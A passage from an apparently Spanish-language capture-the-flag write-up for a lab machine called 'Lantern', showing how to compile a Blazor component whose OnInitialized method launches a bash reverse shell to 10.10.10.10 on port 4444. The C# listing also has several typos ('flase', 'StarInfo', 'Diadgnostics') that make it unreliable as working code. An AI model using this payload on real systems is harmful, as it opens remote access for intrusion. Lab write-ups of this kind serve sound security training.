 como sabemos cual es la versión? porque el dll descargado nos lo dice aquí:
<img src="/images/writeup-lantern/27.png">

ahora, lo importante aquí es que cuando tengas tu proyecto creado, debes tener un directorio y dos archivos:
```
Class1.cs obj vilsec.csproj
```

vas a editar el archivo .cs con el código que quieres ejecutar, en este caso podemos ya ejecutar una reverse shell modificando el archivo de la siguiente manera:

```c#
using System;
using System.Diadgnostics;
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using Microsoft.AspNetCore.Components.Web;

namespace vilsec //aqui debe ir el nombre de tu carpeta(cuidado)
{
	public class Component : ComponentBase
	{
		protected override void OnInitialized()
		{
			Process proc = new Process();
			proc.StartInfo.FileName = "/bin/bash";
			proc.StartInfo.Arguments = "-c \"bash -i >& /dev/tcp/10.10.10.10/4444 0>&1\"";
			proc.StartInfo.UseShellExecute = flase;
			proc.StarInfo.RedirecStandardOuput = true;
			proc.Start();
		}
	}
}
```
intente varios antes de que este me funcionara, ve con cuidado y depurando errores o probando otros métodos (haz uso de la IA, será un gran asistente)

tambien en el archivo .csproj te recomiendo agregar la siguiente línea en la cabecera:
```c#
<Platforms>AnyCPU;x64;x86</Platforms>
```
<img src="/images/writeup-lantern/28.png">
